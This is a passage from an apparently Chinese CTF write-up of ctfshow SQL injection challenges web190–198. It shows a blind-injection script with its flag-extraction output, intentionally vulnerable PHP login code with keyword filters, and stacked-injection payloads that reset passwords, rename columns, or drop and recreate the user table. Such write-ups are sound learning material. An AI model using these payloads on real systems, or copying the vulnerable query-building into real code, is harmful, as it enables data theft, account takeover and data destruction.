class="operator">=</span><span class="string">&#x27;get tables&#x27;</span>)</span><br><span class="line">    miniFunction(sql3,ReStr3,getContent<span class="operator">=</span><span class="string">&#x27;get columns&#x27;</span>)</span><br><span class="line">    miniFunction(sql4,ReStr2,getContent<span class="operator">=</span><span class="string">&#x27;get columns content&#x27;</span>)</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">if __name__ <span class="operator">=</span><span class="operator">=</span> <span class="string">&#x27;__main__&#x27;</span>:</span><br><span class="line">    url <span class="operator">=</span> &quot;http://3ddc402d-adff-431f-a530-422d388bb901.challenge.ctf.show/api/&quot;</span><br><span class="line">    getUrl(url)</span><br></pre></td></tr></table></figure>

<p>之所以说是经典，是因为这个注入一没过滤注释，二没过滤关键字，三没过滤空格，全部流程按照基本的sql注入流程走几乎没有任何问题。</p>
<p>仔细看上面脚本即可。</p>
<p>下面是结果，仅供参考：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">-------------------get database-------------------</span><br><span class="line">c</span><br><span class="line">ct</span><br><span class="line">ctf</span><br><span class="line">ctfs</span><br><span class="line">ctfsh</span><br><span class="line">ctfsho</span><br><span class="line">ctfshow</span><br><span class="line">ctfshow_</span><br><span class="line">ctfshow_w</span><br><span class="line">ctfshow_we</span><br><span class="line">ctfshow_web</span><br><span class="line">You have found the content: ctfshow_web</span><br><span class="line">--------------------get tables--------------------</span><br><span class="line">c</span><br><span class="line">ct</span><br><span class="line">ctf</span><br><span class="line">ctfs</span><br><span class="line">ctfsh</span><br><span class="line">ctfsho</span><br><span class="line">ctfshow</span><br><span class="line">ctfshow_</span><br><span class="line">ctfshow_f</span><br><span class="line">ctfshow_fl</span><br><span class="line">ctfshow_fl0</span><br><span class="line">ctfshow_fl0g</span><br><span class="line">ctfshow_fl0g,</span><br><span class="line">ctfshow_fl0g,c</span><br><span class="line">ctfshow_fl0g,ct</span><br><span class="line">ctfshow_fl0g,ctf</span><br><span class="line">ctfshow_fl0g,ctfs</span><br><span class="line">ctfshow_fl0g,ctfsh</span><br><span class="line">ctfshow_fl0g,ctfsho</span><br><span class="line">ctfshow_fl0g,ctfshow</span><br><span class="line">ctfshow_fl0g,ctfshow_</span><br><span class="line">ctfshow_fl0g,ctfshow_u</span><br><span class="line">ctfshow_fl0g,ctfshow_us</span><br><span class="line">ctfshow_fl0g,ctfshow_use</span><br><span class="line">ctfshow_fl0g,ctfshow_user</span><br><span class="line">You have found the content: ctfshow_fl0g,ctfshow_user</span><br><span class="line">-------------------get columns--------------------</span><br><span class="line">i</span><br><span class="line">id</span><br><span class="line">id,</span><br><span class="line">id,f</span><br><span class="line">id,f1</span><br><span class="line">id,f1a</span><br><span class="line">id,f1ag</span><br><span class="line">You have found the content: id,f1ag</span><br><span class="line">---------------get columns content----------------</span><br><span class="line">c</span><br><span class="line">ct</span><br><span class="line">ctf</span><br><span class="line">ctfs</span><br><span class="line">ctfsh</span><br><span class="line">ctfsho</span><br><span class="line">ctfshow</span><br><span class="line">ctfshow&#123;</span><br><span class="line">ctfshow&#123;d</span><br><span class="line">ctfshow&#123;df</span><br><span class="line">ctfshow&#123;dff</span><br><span class="line">ctfshow&#123;dff1</span><br><span class="line">ctfshow&#123;dff17</span><br><span class="line">ctfshow&#123;dff17b</span><br><span class="line">ctfshow&#123;dff17b3</span><br><span class="line">ctfshow&#123;dff17b38</span><br><span class="line">ctfshow&#123;dff17b38-</span><br><span class="line">ctfshow&#123;dff17b38-d</span><br><span class="line">ctfshow&#123;dff17b38-dd</span><br><span class="line">ctfshow&#123;dff17b38-dd8</span><br><span class="line">ctfshow&#123;dff17b38-dd81</span><br><span class="line">ctfshow&#123;dff17b38-dd81-</span><br><span class="line">ctfshow&#123;dff17b38-dd81-4</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-8</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-82</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-82a</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-82a8</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-82a8-</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-82a8-a</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-82a8-aa</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-82a8-aaa</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-82a8-aaa1</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-82a8-aaa1f</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-82a8-aaa1fc</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-82a8-aaa1fc6</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-82a8-aaa1fc65</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-82a8-aaa1fc65c</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-82a8-aaa1fc65cc</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-82a8-aaa1fc65ccf</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-82a8-aaa1fc65ccfc</span><br><span class="line">ctfshow&#123;dff17b38-dd81-43f6-82a8-aaa1fc65ccfc&#125;</span><br><span class="line">You have found the content: ctfshow&#123;dff17b38-dd81-43f6-82a8-aaa1fc65ccfc&#125;</span><br><span class="line">------------ ctfshow web 190 ------------</span><br></pre></td></tr></table></figure>


<h1 id="web191"><a href="#web191" class="headerlink" title="web191"></a>web191</h1><h2 id="原始信息-99"><a href="#原始信息-99" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select pass from ctfshow_user where username = &#x27;<span class="subst">&#123;$username&#125;</span>&#x27;&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//密码检测</span></span><br><span class="line"><span class="keyword">if</span>(!<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$password</span>))&#123;</span><br><span class="line">  <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;密码只能为数字&#x27;</span>;</span><br><span class="line">  <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">//密码判断</span></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$row</span>[<span class="string">&#x27;pass&#x27;</span>]==<span class="variable">$password</span>)&#123;</span><br><span class="line">    <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;登陆成功&#x27;</span>;</span><br><span class="line">  &#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">//<span class="doctag">TODO:</span>感觉少了个啥，奇怪</span></span><br><span class="line">  <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/file|into|ascii/i&#x27;</span>, <span class="variable">$username</span>))&#123;</span><br><span class="line">      <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;用户名非法&#x27;</span>;</span><br><span class="line">      <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-94"><a href="#解题-94" class="headerlink" title="解题"></a>解题</h2><p>和web190用相同的脚本即可。用户名过滤但是不影响上面的脚本。</p>
<h1 id="web192"><a href="#web192" class="headerlink" title="web192"></a>web192</h1><h2 id="原始信息-100"><a href="#原始信息-100" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select pass from ctfshow_user where username = &#x27;<span class="subst">&#123;$username&#125;</span>&#x27;&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//密码检测</span></span><br><span class="line"><span class="keyword">if</span>(!<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$password</span>))&#123;</span><br><span class="line">  <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;密码只能为数字&#x27;</span>;</span><br><span class="line">  <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">//密码判断</span></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$row</span>[<span class="string">&#x27;pass&#x27;</span>]==<span class="variable">$password</span>)&#123;</span><br><span class="line">    <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;登陆成功&#x27;</span>;</span><br><span class="line">  &#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">//<span class="doctag">TODO:</span>感觉少了个啥，奇怪</span></span><br><span class="line">  <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/file|into|ascii|ord|hex/i&#x27;</span>, <span class="variable">$username</span>))&#123;</span><br><span class="line">      <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;用户名非法&#x27;</span>;</span><br><span class="line">      <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-95"><a href="#解题-95" class="headerlink" title="解题"></a>解题</h2><p>照着web190的脚本跑即可。</p>
<h1 id="web193"><a href="#web193" class="headerlink" title="web193"></a>web193</h1><h2 id="原始信息-101"><a href="#原始信息-101" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select pass from ctfshow_user where username = &#x27;<span class="subst">&#123;$username&#125;</span>&#x27;&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//密码检测</span></span><br><span class="line">  <span class="keyword">if</span>(!<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$password</span>))&#123;</span><br><span class="line">    <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;密码只能为数字&#x27;</span>;</span><br><span class="line">    <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">  &#125;</span><br><span class="line"></span><br><span class="line">  <span class="comment">//密码判断</span></span><br><span class="line">  <span class="keyword">if</span>(<span class="variable">$row</span>[<span class="string">&#x27;pass&#x27;</span>]==<span class="variable">$password</span>)&#123;</span><br><span class="line">      <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;登陆成功&#x27;</span>;</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">  <span class="comment">//<span class="doctag">TODO:</span>感觉少了个啥，奇怪</span></span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/file|into|ascii|ord|hex|substr/i&#x27;</span>, <span class="variable">$username</span>))&#123;</span><br><span class="line">        <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;用户名非法&#x27;</span>;</span><br><span class="line">        <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">    &#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-96"><a href="#解题-96" class="headerlink" title="解题"></a>解题</h2><p>这次过滤掉了截断函数了，需要找个替换掉</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"># 被过滤无法使用的：</span><br><span class="line"><span class="keyword">select</span> substr(<span class="string">&#x27;awd&#x27;</span><span class="number">1</span>,<span class="number">1</span>) content;</span><br><span class="line"><span class="keyword">select</span> <span class="built_in">substring</span>(<span class="string">&#x27;awd&#x27;</span><span class="number">1</span>,<span class="number">1</span>) content;</span><br><span class="line"></span><br><span class="line"># 没被过滤可以使用的：</span><br><span class="line"><span class="keyword">select</span> mid(<span class="string">&#x27;awd&#x27;</span><span class="number">1</span>,<span class="number">1</span>) content;</span><br></pre></td></tr></table></figure>

<p>所以修改下web190的脚本依旧能跑：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">sql1 = <span class="string">&quot;admin&#x27;and(if(mid(database(),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,1,0))#&quot;</span></span><br><span class="line">sql2 = <span class="string">&quot;admin&#x27;and(if(mid((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,1,0))-- -&quot;</span></span><br><span class="line">sql3 = <span class="string">&quot;admin&#x27;and(if(mid((select(group_concat(column_name))from(information_schema.columns)where(table_name=&#x27;ctfshow_flxg&#x27;)),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,1,0))#&quot;</span></span><br><span class="line">sql4 = <span class="string">&quot;admin&#x27;and(if(mid((select(group_concat(f1ag))from(ctfshow_flxg)),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,1,0))#&quot;</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># miniFunction(sql1,ReStr3,getContent=&#x27;get database&#x27;)</span></span><br><span class="line"><span class="comment"># miniFunction(sql2,ReStr3,getContent=&#x27;get tables&#x27;)</span></span><br><span class="line"><span class="comment"># miniFunction(sql3,ReStr2,getContent=&#x27;get column&#x27;)</span></span><br><span class="line"><span class="title function_ invoke__">miniFunction</span>(sql4,ReStr3,getContent=<span class="string">&#x27;get column content&#x27;</span>,start=<span class="number">9</span>,flag=<span class="string">&#x27;ctfshow&#123;&#x27;</span>)</span><br></pre></td></tr></table></figure>


<h1 id="web194"><a href="#web194" class="headerlink" title="web194"></a>web194</h1><h2 id="原始信息-102"><a href="#原始信息-102" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select pass from ctfshow_user where username = &#x27;<span class="subst">&#123;$username&#125;</span>&#x27;&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//密码检测</span></span><br><span class="line"><span class="keyword">if</span>(!<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$password</span>))&#123;</span><br><span class="line">  <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;密码只能为数字&#x27;</span>;</span><br><span class="line">  <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">//密码判断</span></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$row</span>[<span class="string">&#x27;pass&#x27;</span>]==<span class="variable">$password</span>)&#123;</span><br><span class="line">    <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;登陆成功&#x27;</span>;</span><br><span class="line">  &#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">//<span class="doctag">TODO:</span>感觉少了个啥，奇怪</span></span><br><span class="line">  <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/file|into|ascii|ord|hex|substr|char|left|right|substring/i&#x27;</span>, <span class="variable">$username</span>))&#123;</span><br><span class="line">      <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;用户名非法&#x27;</span>;</span><br><span class="line">      <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-97"><a href="#解题-97" class="headerlink" title="解题"></a>解题</h2><p>没有过滤mid，继续使用上面的脚本。</p>
<h1 id="web195–-明写堆叠注入"><a href="#web195–-明写堆叠注入" class="headerlink" title="web195–(明写堆叠注入)"></a>web195–(明写堆叠注入)</h1><h2 id="原始信息-103"><a href="#原始信息-103" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select pass from ctfshow_user where username = <span class="subst">&#123;$username&#125;</span>;&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//密码检测</span></span><br><span class="line"><span class="keyword">if</span>(!<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$password</span>))&#123;</span><br><span class="line">  <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;密码只能为数字&#x27;</span>;</span><br><span class="line">  <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">//密码判断</span></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$row</span>[<span class="string">&#x27;pass&#x27;</span>]==<span class="variable">$password</span>)&#123;</span><br><span class="line">    <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;登陆成功&#x27;</span>;</span><br><span class="line">  &#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">//<span class="doctag">TODO:</span>感觉少了个啥，奇怪,不会又双叒叕被一血了吧</span></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\&#x27;|\&quot;|select|union|or|and|\x26|\x7c|file|into/i&#x27;</span>, <span class="variable">$username</span>))&#123;</span><br><span class="line">  <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;用户名非法&#x27;</span>;</span><br><span class="line">  <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$row</span>[<span class="number">0</span>]==<span class="variable">$password</span>)&#123;</span><br><span class="line">    <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&quot;登陆成功 flag is <span class="subst">$flag</span>&quot;</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-98"><a href="#解题-98" class="headerlink" title="解题"></a>解题</h2><p>百闻不如一见，长见识了。使用堆叠注入修改密码，再登录账户得到flag。</p>
<p>payload如下：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">POST: <span class="number">0</span>;<span class="keyword">update</span>`ctfshow_user`<span class="keyword">set</span>`pass`<span class="operator">=</span><span class="number">0x31333134</span></span><br></pre></td></tr></table></figure>

<p>输入账户密码登录即可获得flag：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">用户名：0</span><br><span class="line">密码：1314</span><br></pre></td></tr></table></figure>

<h2 id="收获-2"><a href="#收获-2" class="headerlink" title="收获"></a>收获</h2><p>update可以用于堆叠注入修改指定用户的密码。</p>
<h1 id="web196"><a href="#web196" class="headerlink" title="web196"></a>web196</h1><h2 id="原始信息-104"><a href="#原始信息-104" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select pass from ctfshow_user where username = <span class="subst">&#123;$username&#125;</span>;&quot;</span>;   </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//<span class="doctag">TODO:</span>感觉少了个啥，奇怪,不会又双叒叕被一血了吧</span></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\&#x27;|\&quot;|select|union|or|and|\x26|\x7c|file|into/i&#x27;</span>, <span class="variable">$username</span>))&#123;</span><br><span class="line">  <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;用户名非法&#x27;</span>;</span><br><span class="line">  <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">strlen</span>(<span class="variable">$username</span>)&gt;<span class="number">16</span>)&#123;</span><br><span class="line">  <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;用户名不能超过16个字符&#x27;</span>;</span><br><span class="line">  <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$row</span>[<span class="number">0</span>]==<span class="variable">$password</span>)&#123;</span><br><span class="line">    <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&quot;登陆成功 flag is <span class="subst">$flag</span>&quot;</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-99"><a href="#解题-99" class="headerlink" title="解题"></a>解题</h2><h3 id="方法1"><a href="#方法1" class="headerlink" title="方法1"></a>方法1</h3><p>不知道为什么，使用了select限制我们的输入，但还是能使用select输入……</p>
<p>具体使用select的原因是：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"><span class="comment">-- 使用sql注入的句子获取密码存入数组中，在下面的密码验证中进行比对。</span></span><br><span class="line"><span class="keyword">select</span> pass <span class="keyword">from</span> ctfshow_user <span class="keyword">where</span> username<span class="operator">=</span><span class="number">1</span>;<span class="keyword">select</span>(<span class="number">0</span>);</span><br><span class="line"><span class="comment">-- 这个时候，即便是第一个句子没办法得到结果的时候，使用第二个句子select(0)获取最终结果。</span></span><br></pre></td></tr></table></figure>

<p>现在的payload如下：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">用户名：1;select(0)</span><br><span class="line">密码：0</span><br></pre></td></tr></table></figure>

<p>登录后得到flag。</p>
<h3 id="方法2"><a href="#方法2" class="headerlink" title="方法2"></a>方法2</h3><p>这个是官方的payload，意思是这样的：</p>
<p>使用之前泄露的密码 <code>passwordAUTO</code> 去登录即可：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">username: <span class="number">0</span></span><br><span class="line">password: passwordAUTO</span><br></pre></td></tr></table></figure>


<h1 id="web197"><a href="#web197" class="headerlink" title="web197"></a>web197</h1><h2 id="原始信息-105"><a href="#原始信息-105" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select pass from ctfshow_user where username = <span class="subst">&#123;$username&#125;</span>;&quot;</span>;   </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment"># web197</span></span><br><span class="line"><span class="comment">//<span class="doctag">TODO:</span>感觉少了个啥，奇怪,不会又双叒叕被一血了吧</span></span><br><span class="line">  <span class="keyword">if</span>(<span class="string">&#x27;/\*|\#|\-|\x23|\&#x27;|\&quot;|union|or|and|\x26|\x7c|file|into|select|update|set//i&#x27;</span>, <span class="variable">$username</span>))&#123;</span><br><span class="line">    <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;用户名非法&#x27;</span>;</span><br><span class="line">    <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">  &#125;</span><br><span class="line"></span><br><span class="line">  <span class="keyword">if</span>(<span class="variable">$row</span>[<span class="number">0</span>]==<span class="variable">$password</span>)&#123;</span><br><span class="line">      <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&quot;登陆成功 flag is <span class="subst">$flag</span>&quot;</span>;</span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-100"><a href="#解题-100" class="headerlink" title="解题"></a>解题</h2><h3 id="方法1-卡bug式的取flag"><a href="#方法1-卡bug式的取flag" class="headerlink" title="方法1 卡bug式的取flag"></a>方法1 卡bug式的取flag</h3><p>对比下正则表达式：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\<span class="comment">#|\x23|\&#x27;|\&quot;|select|union|or|and|\x26|\x7c|file|into/i</span></span><br><span class="line">/\*|\<span class="comment">#|\-|\x23|\&#x27;|\&quot;|union|or|and|\x26|\x7c|file|into|select|update|set//i</span></span><br><span class="line">/\*|\<span class="comment">#|\-|\x23|\&#x27;|\&quot;|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop/i</span></span><br></pre></td></tr></table></figure>

<p>看到第一个wp，卡官方bug了属于是：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">username: <span class="number">0</span>;show tables</span><br><span class="line">password: ctfshow_user</span><br></pre></td></tr></table></figure>

<p>利用的是官方只有一个table的情况创造新登陆密码的。</p>
<p>而另外一个，则是：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="number">1</span>;alter table `ctfshow_user` change `pass` `feng` <span class="title function_ invoke__">varchar</span>(<span class="number">255</span>); alter table `ctfshow_user` change `id` `pass` <span class="title function_ invoke__">varchar</span>(<span class="number">255</span>)</span><br></pre></td></tr></table></figure>

<p>更新字段 <code>pass</code> 为 <code>pass</code> , 更新 字段 <code>id</code>  为 <code>pass</code> ,巧夺天工的操作了属于是……</p>
<h3 id="方法2-默认泄露的账密登录"><a href="#方法2-默认泄露的账密登录" class="headerlink" title="方法2  默认泄露的账密登录"></a>方法2  默认泄露的账密登录</h3><p>这个和上面的题目一样。</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">username: <span class="number">0</span></span><br><span class="line">password: passwordAUTO</span><br></pre></td></tr></table></figure>

<h3 id="方法3-删除表-创建表-插入数据"><a href="#方法3-删除表-创建表-插入数据" class="headerlink" title="方法3 删除表+创建表+插入数据"></a>方法3 删除表+创建表+插入数据</h3><p>大致内容如下：在用户名处删除表，创建表，插入表。</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"><span class="number">0</span>;<span class="keyword">drop</span> <span class="keyword">table</span> ctfshow_user;</span><br><span class="line"><span class="keyword">create</span> <span class="keyword">table</span> ctfshow_user(`username` <span class="type">varchar</span>(<span class="number">100</span>),`pass` <span class="type">varchar</span>(<span class="number">100</span>));</span><br><span class="line"><span class="keyword">insert</span> ctfshow_user(`username`,`pass`)<span class="keyword">value</span>(<span class="number">1</span>,<span class="number">2</span>)</span><br></pre></td></tr></table></figure>

<p>那么对应的payload如下：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">username: <span class="number">0</span>;<span class="keyword">drop</span> <span class="keyword">table</span> ctfshow_user;<span class="keyword">create</span> <span class="keyword">table</span> ctfshow_user(`username` <span class="type">varchar</span>(<span class="number">100</span>),`pass` <span class="type">varchar</span>(<span class="number">100</span>));<span class="keyword">insert</span> ctfshow_user(`username`,`pass`)<span class="keyword">value</span>(<span class="number">1</span>,<span class="number">2</span>)</span><br><span class="line">password: <span class="number">123</span></span><br></pre></td></tr></table></figure>

<p>这是对应的第一次变更表，然后使用这样子进行登录：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">username: <span class="number">1</span></span><br><span class="line">password: <span class="number">2</span></span><br></pre></td></tr></table></figure>


<h1 id="web198"><a href="#web198" class="headerlink" title="web198"></a>web198</h1><h2 id="原始信息-106"><a href="#原始信息-106" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select pass from ctfshow_user where username = <span class="subst">&#123;$username&#125;</span>;&quot;</span>;   </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
